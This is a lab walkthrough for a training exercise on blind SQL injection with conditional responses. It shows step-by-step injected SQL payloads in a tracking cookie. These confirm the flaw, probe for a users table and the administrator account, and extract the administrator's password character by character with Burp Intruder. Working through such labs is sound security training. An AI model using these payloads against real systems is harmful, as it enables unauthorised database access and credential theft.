 Lab #11 - Blind SQL Injection with conditional responses

Vulnerable parameter - Tracking Cookie

End Goals:

- Enumerate the password of administrator
- Login as administrator user

Analysis:

1. Confirm that the parameter is vulnerable to blind sqli

select tracking-id from tracking-table where trackingId = '5nGtNEmM1huhUPes'

- If the tracking id exists => query returns value => Welcome back
- If it doesn't exist => query returns nothing => no Welcome back

select tracking-id from tracking-table where trackingId = '5nGtNEmM1huhUPes' and 1=1--' -> ```True``` -> ```Welcome back```

select tracking-id from tracking-table where trackingId = '5nGtNEmM1huhUPes' and 1=2--' -> ```False``` -> ```no Welcome back```

2. Confirm that we have a users table

select tracking-id from tracking-table where trackingId = '5nGtNEmM1huhUPes' and (select 'x' from users LIMIT 1)='x'-- ' -> ```if users table exists``` -> ```True``` -> ```Welcome back``` ==> users table exists

3. Confirm username administrator exists in users table

select tracking-id from tracking-table where trackingId = '5nGtNEmM1huhUPes' and (select username from users where username='administrator')='administrator'-- ' -> ```if username administrator exists``` -> ```True``` -> ```Welcome back``` ==> user administrator exists

4. Enumerate password for the administrator user

select tracking-id from tracking-table where trackingId = '5nGtNEmM1huhUPes' and (select username from users where username='administrator' and LENGTH(password)>=1)='administrator'-- ' ==> ```length of password is 20```

select tracking-id from tracking-table where trackingId = '5nGtNEmM1huhUPes' and (select substring(password,1,1) from users where username='administrator')='a'-- ' ==> ```gives the administrator's password``` [with the help of intruder(burp)]
